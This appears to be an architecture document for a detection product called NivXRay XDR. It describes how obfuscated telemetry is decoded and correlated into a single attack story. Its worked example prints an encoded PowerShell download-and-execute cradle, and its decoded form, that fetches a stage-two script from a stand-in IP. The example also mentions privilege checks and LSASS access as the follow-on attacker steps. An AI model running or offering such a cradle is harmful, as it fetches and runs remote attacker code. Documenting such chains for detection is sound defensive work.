

# NivXRay XDR — Universal Content Intelligence Data Flow Architecture
**Document Version:** 1.0.0  
**Status:** DELIVERED & OPERATIONAL  

---

## 1. End-to-End Investigation Pipeline Data Flow

The flow of intelligence through NivXRay XDR guarantees that decoded and deobfuscated telemetry is converted into first-class derived evidence that directly feeds entity understanding (IUE), stateful correlation (ICE), the Investigation Knowledge Graph (IKG), and the Security State vector.



---

## 2. In-Flight Data Contracts

| Pipeline Stage | Input Contract | Output Contract | Authoritative Schema Field |
| :--- | :--- | :--- | :--- |
| **Ingestion** | Raw process command or binary stream | Canonical Event Dictionary | `raw_command`, `event_type`, `sha256` |
| **Content Intelligence** | Raw content string or byte buffer | `DecodedIntelligence` | `decoded_intelligence` |
| **Derived Stages** | Stage input buffer | `DerivedEvidenceStage` | `stages[]` (`stage_id`, `op`, `input_hash`, `output_hash`, `preview`, `why`, `stop_reason`) |
| **Entity Understanding** | Canonical Event + Decoded Intelligence | IUE Extraction Output | `entities[]` (`role: "c2_indicator"`, `value`, `confidence`) |
| **Multi-Event Correlation** | IUE Entities + Correlation Candidates | ICE Correlation Signal | `signal.fields.decoded_c2_ip`, `signal.fields.decoded_url`, `signal.fields.effective_command` |
| **IKG Knowledge Graph** | Correlation Matches + Entity Edges | Subgraph Projection | `IKGNode(event_id, c2_ip, technique_id)` |
| **Security State** | IKG Nodes + Temporal Chains | Security State Vector | `state_vector.stage: "COMMAND_AND_CONTROL"`, `verdict: "TRUE_POSITIVE_COMPROMISE"` |

---

## 3. Concrete Investigation Example: Multi-Event Correlation

### Event A: Obfuscated Ingestion
```powershell
powershell.exe -NoP -NonI -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADgALgA1ADEALgAxADAAMAAuADIAMwAvAHMAdABhAGcAZQAyAC4AcABzADEAJwApAA==
```

### Content Intelligence Layer Recovery
1. **L0 Original**: Raw UTF-16LE Base64 string.
2. **L1 Derived**: Decoded UTF-8 string:
   `IEX (New-Object Net.WebClient).DownloadString('http://198.51.100.23/stage2.ps1')`
3. **L2 Interpreted**:
   - `iocs.ips`: `["198.51.100.23"]`
   - `iocs.urls`: `["http://198.51.100.23/stage2.ps1"]`
   - `mitre_techniques`: `["T1059.001", "T1105"]`
   - `stop_reason`: `terminal_plaintext_reached`

### Cross-Telemetry Correlation (ICE)
- **Event B (Network)**: Sysmon Event ID 3 (Network Connection) to destination `198.51.100.23:80`.
  - Matched on: `signal.fields.decoded_c2_ip == network.destination_ip`.
- **Event C (Process)**: Child process `cmd.exe /c whoami /priv` spawned by `powershell.exe`.
  - Matched on: `process.parent_pid == powershell.pid`.
- **Event D (Credential)**: Access to LSASS memory handle.
  - Matched on: Same host and user context within 120s sliding window.

### Result
Rather than 4 disconnected alerts with an opaque, unreadable command line in Event A, NivXRay XDR generates a single **Evidence-Backed Attack Story** in the IKG and Security State ledger.
